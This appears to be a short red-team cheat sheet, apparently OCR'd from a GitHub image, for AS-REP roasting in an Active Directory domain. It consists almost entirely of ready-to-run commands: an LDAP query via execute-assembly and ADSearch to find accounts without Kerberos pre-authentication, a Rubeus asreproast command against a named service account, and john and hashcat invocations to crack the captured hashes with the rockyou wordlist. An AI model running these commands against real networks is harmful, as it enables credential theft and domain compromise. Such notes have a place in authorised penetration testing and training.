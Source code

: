 # Get users that are as-reproastable in the Domain

```bash
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname
```

---

# AS-REProast a specific user with Rubeus

```bash
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /user:squid_svc /nowrap
```

---

# Crack hashes from as-reproasted user

```bash
 john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt squid_svc.hash
 hashcat -a 0 -m 18200 squid_svc.hash /usr/share/wordlists/rockyou.txt
```
